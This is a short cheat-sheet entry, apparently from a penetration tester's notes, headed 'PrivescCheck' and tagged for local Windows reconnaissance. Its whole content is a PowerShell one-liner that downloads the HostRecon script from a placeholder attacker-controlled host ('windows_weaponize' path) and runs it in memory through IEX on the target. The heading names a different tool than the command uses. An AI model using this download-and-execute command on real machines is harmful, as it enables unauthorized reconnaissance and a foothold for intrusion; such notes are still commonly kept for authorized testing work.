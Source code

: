 # PrivescCheck

#plateform/windows #target/local #cat/RECON #tag/powershell

## onliner
https://github.com/dafthack/HostRecon
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/HostRecon.ps1') | IEX; Invoke-HostRecon
```